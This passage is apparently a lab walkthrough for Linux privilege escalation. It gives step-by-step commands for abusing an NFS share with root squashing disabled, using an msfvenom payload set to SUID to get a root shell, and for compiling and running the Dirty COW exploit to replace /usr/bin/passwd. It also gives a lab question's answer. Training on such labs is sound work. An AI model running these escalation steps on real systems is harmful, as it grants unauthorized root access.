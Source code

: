 	Check the NFS share configuration on the Debian VM:

	cat /etc/exports

	Note that the /tmp share has root squashing disabled.

	On your Kali box, switch to your root user if you are not already running as root:

	sudo su

	Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

	mkdir /tmp/nfs
	mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

	Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

	msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

	Still using Kali's root user, make the file executable and set the SUID permission:

	chmod +xs /tmp/nfs/shell.elf

	Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

	/tmp/shell.elf
	
	Question Answers
		'no_root_squash'
		
# Task 20 - Kernel Exploits

	Before we proceed, its important to note that kernel exploits can cause system instability so they should only be used as a last resort
	
	Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

	perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

	The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a     	shell (a backup of /usr/bin/passwd is made at /tmp/bak).

	Compile the code and run it (note that it may take several minutes to complete):

	gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
	./c0w

	Once the exploit completes, run /usr/bin/passwd to gain a root shell:

	/usr/bin/passwd

	Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

	mv /tmp/bak /usr/bin/passwd
	exit

# Task 21 - Privilege Escalation Scripts

	There are 3 useful scripts on this machine that can be helpful for privilege escalation
	linpeas
	linenum
	linnux smart enumeration (lse)
	
	
	
